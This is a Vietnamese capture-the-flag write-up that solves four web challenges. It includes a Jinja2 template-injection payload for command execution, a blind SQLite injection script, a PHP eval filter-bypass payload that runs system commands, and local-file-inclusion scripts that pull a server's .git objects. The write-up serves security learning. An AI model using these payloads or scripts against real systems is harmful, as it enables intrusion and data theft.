# HCMUS_CTF - Quals
<hr />
  
| Challenge name    | Points  | Solvers   |  
| :---------  |    :---: |   ---: |
| [Nothingness](#nothingness) | 32 | 27 |
| [EasyLogin](#easylogin) | 71 | 24 |
| [SimpleCalculator](#simplecalculator) | 94 | 12|
| [GITchee-gitchee-goo](#gitchee-gitchee-goo) | 193 | 9 |  
  
## `Nothingness`  
    
      
Trang web khi vào sẽ hiển thị ra như trên, nhưng có vẻ là `URL path` được nhắc đến ở đây nên ta thử nhập một `path` bất kỳ nào đấy lên URL để xem như thế nào  
  
    
Và phần `path` được render lại, theo kinh nghiệm của mình có thể đây là lỗi `Server-side template injection` nên test thử và chính xác là như thế.  
  
  
Ở đây ta có thể thấy ở phần `response header` là webserver đang sử dụng `Python` để chạy => Rất có thể là `Jinja2`.   
  
Sau khi đã xác định được `target` và cũng như `vulnerability` thì ta tiến hành tìm cách để đọc `flag`.  
Thử fuzz với template `{{config.items()}}` để đọc được các giá trị cấu hình trên server và rất có thể là flag nằm trong đó.  

  
Và tất nhiên là đời không như là mơ, giờ tìm cách `RCE` để tìm ra file flag.  
Payload: `{{config.__class__.__init__.__globals__['os'].popen('<command>').read()}}`  
  
Và `flag` nằm ở thư mục root  
  
  
Đọc flag nà!!  
  
  
> Flag: `HCMUS-CTF{404_teMpl4t3_1njEctIon}`    
   
## `EasyLogin`   
  
Bài cho ta một form login, và thử ngay thì biết được dính lỗi `SQL injection` và đang sử dụng `SQLite3`. Nhưng thử bypass login với `admin` thì được kết quả như này =))
  
    
Ban đầu cứ nghĩ là password của admin là `flag` nên mình đã viết script để blind cái password nhưng khi có password login vào thì vẫn vậy -.-  
Nên dựa vào hình trên có thể đoán được là `flag` đang nằm trong bảng khác, đoán query đằng sau là `SELECT * FROM users WHERE username='input' and passwd='input'`  
Sau đấy viết lại script để exploit thì được tên bảng  
  
   
  
Script exploit:
```python3
#!/usr/bin/env python3
import requests
import string

r = requests.Session()
url = 'http://61.28.237.24:30100/'
flag = ''
index = 1
table_name = 'flagtablewithrandomname'
flag = 'HCMUS-CTF{easY_sql_1nj3ctIon}'

while True:
	for c in string.printable.replace('%', ''):
		# Get table structure
		#payload = f"' or substr((select sql from sqlite_master where tbl_name != 'users'),{index},1)='{c}'--" 

		#Get flag
		payload = f"' or substr((select group_concat(flag) from flagtablewithrandomname),{index},1)='{c}'--" 
		data = {'username': payload, 'passwd': '123'}
		resp = r.post(url , data = data)
		if "Nothing special here. Maybe an admin account will work?" in resp.text:
			flag += c
			index += 1
			print(flag)
			break
		if c == '}':
			exit()
```  
> Flag: `HCMUS-CTF{easY_sql_1nj3ctIon}`
## `SimpleCalculator`   
    
Web có chức năng cho ta nhập vào một biểu thức gì gì đó, sau đó tính toán các kiểu rồi trả về result thông qua biến query `equation`. Ta thử nhập vào một mảng xem như thế nào 
  
  
Theo như reponse trả về, ta biết được code đằng sau sử dụng hàm eval để thực hiện tính biểu thức đó. Vậy giờ việc cần làm là tìm cách `RCE` thông qua chức năng này!!!  
Thử thực thi hàm `phpinfo()` xem như thế nào  
  
   
Ô cê! i'm fine =((. Và tất cả `ký tự chữ cái [a-zA-Z]` và các dấu như ```quote('), double-quote("), backtick(`)``` đều được filter kỹ càng! Hmmm... Liền thử ngay kỹ thuật `XOR string` để bypass filter nhưng lại bị `giới hạn về ký tự (chỉ 19 ký tự)` nhưng theo kiến thức mình biết được thì ta có thể bypass bằng cách sử dụng dấu `~` để lấy phủ định của một chuỗi.  
  
Ví dụ: `~"_GET"` sẽ cho ra các ký tự không nằm trong alphabet nên khi gửi lên server chỉ cần lấy phủ định lại của kết quả đó là có thể bypass được filter. Ngoài ra việc gọi tên một biến theo cách truyền thống là `$variable` thì ta cũng có thể gọi `${'variable'}`.   
  
Payload mà đội mình dùng để đọc file flag: `?equation=${~%A0%B8%BA%AB}[0](~%91%93%DF%D0%D5)&0=system`  
Giải thích sơ qua về payload:
- `${~%A0%B8%BA%AB}[0] = ${'_GET'}[0]` nghĩa là lấy tên hàm qua biến query `0`.
- `~%91%93%DF%D0%D5 = nl /*` là argument đặt trong function trên và thay cho `cat /*`  

  
  
> Flag: `HCMUS-CTF{d4ngErous_eVal}`  


## `GITchee-gitchee-goo`   
  
Ở đây, ta có thể dễ dàng fuzz được `LFI` tại ô input dưới đây => từ chổ này, ta có thể đọc bất kỳ file nào trên hệ thống (nếu được phép)  
  
  
Mình đã thử những kỹ thuật về LFI đã biết nhưng có vẻ không khả quan, sau đó check `robots.txt`  
  

  
Ồh có một folder `.git` nhưng khi truy cập thì trả về 403 =(((  
  
  
Nhưng có thể đoán được ý tác giả bắt ta đọc các file trong `.git` thông qua `LFI` này!! Ok và đến lúc dùng `Google` rồi XD.  
  
Giờ việc đầu tiên ta cần tìm hiểu là về `structure` của folder `.git` đó ([Link tham khảo](https://openclassrooms.com/en/courses/5671626-manage-your-code-project-with-git-github/6152251-explore-gits-file-structure#:~:text=git%20directory%20holds%20the%20meat,gets%20its%20own%20sub%20folder.))  
  
Nhưng ta chỉ cần nhớ mấu chốt ở ổ này là khi các bạn thêm file nào đó vào trong một commit, thì những file đó sẽ được `encrypt`, `compress` và được chứa như là một object được gọi là `blobs` và sử dụng thuật toán `SHA-1` cho mỗi `blob` để định danh riêng cho nó (ngoài ra còn có các khái niệm `tree` và `commit` nữa). Và thư mục `objects` trong folder `.git` là nơi chứa những thứ đó. Thêm một điều mà mình biết nữa là các file trong commit được compress bằng `zlib`. Vậy nên ta chỉ cần kéo các `blob` này về và `decompress với zlib` là ta có thể đọc được những file đã được thêm vào `repo`.  
  
Và ở đây mình sẽ dùng `php wrapper` để đọc dữ liệu dưới dạng `base64` để tránh trường hợp đọc thiếu, sót các byte rồi dẫn đến lỗi trong quá trình `decompress`.
Nên việc đầu tiên mình cần làm là đọc và lưu những file cơ bản về trước đã  
  
```python3
# get_file.py

#!/usr/bin/env python3
import requests
import re
import os
import zlib
import base64
import sys

url = 'http://61.28.237.24:30102/'
r = requests.Session()

tasks = [
        ".gitignore",
        ".git/COMMIT_EDITMSG",
        ".git/description",
        ".git/hooks/applypatch-msg.sample",
        ".git/hooks/commit-msg.sample",
        ".git/hooks/post-commit.sample",
        ".git/hooks/post-receive.sample",
        ".git/hooks/post-update.sample",
        ".git/hooks/pre-applypatch.sample",
        ".git/hooks/pre-commit.sample",
        ".git/hooks/pre-push.sample",
        ".git/hooks/pre-rebase.sample",
        ".git/hooks/pre-receive.sample",
        ".git/hooks/prepare-commit-msg.sample",
        ".git/hooks/update.sample",
        ".git/index",
        ".git/info/exclude",
        ".git/objects/info/packs",
        ".git/FETCH_HEAD",
        ".git/HEAD",
        ".git/ORIG_HEAD",
        ".git/config",
        ".git/info/refs",
        ".git/logs/HEAD",
        ".git/logs/refs/heads/master",
        ".git/logs/refs/remotes/origin/HEAD",
        ".git/logs/refs/remotes/origin/master",
        ".git/logs/refs/stash",
        ".git/packed-refs",
        ".git/refs/heads/master",
        ".git/refs/remotes/origin/HEAD",
        ".git/refs/remotes/origin/master",
        ".git/refs/stash",
        ".git/refs/wip/wtree/refs/heads/master",  # Magit
        ".git/refs/wip/index/refs/heads/master"  # Magit
    ]
def get_token():
	resp = r.get(url)
	return re.findall(r'<input name="token" value="(.*)" hidden>', resp.text)[0]

def lfi(file_name):
	resp = r.post(url, data={'token':get_token(), 'song': 'php://filter/convert.base64-encode/resource='+file_name})
	return resp.text.split('</pre><html>')[0].replace('<pre>','')

for task in tasks:
	try:
		directory = task[0:task.rindex('/')+1]
		if not os.path.exists(directory):
			os.makedirs(directory)
		f = open(f'{task}', 'wb')
		data = lfi(task)

		if "failed to open stream" not in data:
			f.write(base64.b64decode(data))
		else:
			pass
		f.close()
	except:
		pass
```  
Sau khi có khung rồi thì ta tiến hành đọc `log` ở `.git/logs/HEAD` và có thể thấy là những hash của những `commit` đã được liệt kê sẵn ở đây hết.
Về cấu trúc lưu trữ object như sau:
  
  
Sẽ lấy 2 ký tự đầu của `hash` làm folder và 38 ký tự còn lại làm `file name`. Giờ chỉ cần clone từng cái về và dùng git để đọc các `blob` tiếp theo rồi kéo về và cứ thế đọc hết tất cả file đã được `commit` trước và sau kể từ lúc bắt đầu mà thôi.  
    
     
```python3
# get_object.py  
  
#!/usr/bin/env python3  
import requests
import re
import os
import zlib
import base64
import sys

url = 'http://61.28.237.24:30102/'
r = requests.Session()

def get_token():
	resp = r.get(url)
	return re.findall(r'<input name="token" value="(.*)" hidden>', resp.text)[0]

def lfi(file_name):
	resp = r.post(url, data={'token':get_token(), 'song': 'php://filter/convert.base64-encode/resource='+file_name})
	return resp.text.split('</pre><html>')[0].replace('<pre>','')

task = sys.argv[1]
#task = '.git/objects/26/f83e27e96c7371129f76ac70b58f0787153c82'
directory = task[0:task.rindex('/')+1]

if not os.path.exists(directory):
	os.makedirs(directory)

f = open(f'{task}', 'wb')
data = lfi(task).strip()
data = base64.b64decode(data)
f.write(data)
compressed_contents = data
decompressed_contents = zlib.decompress(compressed_contents)
print(decompressed_contents)
f.close()
```  
  
```bash
$ python3 get_object.py ".git/objects/17/d14ffb4be92ef2b63c070307aa43774ccd9d65" // hash = 17d14ffb4be92ef2b63c070307aa43774ccd9d65
```
    
Nếu ta gặp lỗi khi dùng `git log` ví dụ như:  
   
  
Thì cứ tiếp tục clone đến khi nào hết báo lỗi thì thôi XD  
Sau một hồi hì hục clone thì cũng hoàn thành, giờ tìm flag thôi!! Lúc này mình nghĩ rằng rất có thể tác giả đã chèn flag vào trong file nào đó rồi lại xoá đi cũng nên, vì vậy mục đích của mình là đọc lại những file cũ từ lúc init đến hiện tại => Vẫn dùng cách cũ là clone từng `object` về thôi.  
  
     
Ở đây mình thấy các file như sau:  
  
    
Ở đây thấy 1 cái ảnh, có hash là `5531e1ff740b1dbafc79f315f266d54738938450` nên nhanh chóng dùng script ở trên clone về  
```bash
$ python3 get_object.py ".git/objects/55/31e1ff740b1dbafc79f315f266d54738938450"
$ git cat-file -p 5531e1ff740b1dbafc79f315f266d54738938450 > image.png
```  
  
Và ta có flag XD  
  
     
  
> Flag: `HCMUS-CTF{mOt1vaT3d_by_0ld_m3Mory}` 
  
## Conclusion  
Trên đây là solution của team mình và cũng như quá trình mà mình đã giải được các challenge trong thời gian diễn ra cuộc thi, song song đó cũng có những kiến thức mới mà mình học được trong quá trình giải và mình đã diễn đạt nó theo cách mà bản thân mình hiểu được, do đó việc xảy ra sai sót là điều không thể tránh khỏi nên nếu có sai sót mong các bạn góp ý cho mình để trong các bài write-up sau mình sẽ diễn đạt tốt hơn, cũng như tìm hiểu kỹ hơn về những gì mình sắp trình bày cho các bạn. Happy hacking!! XD
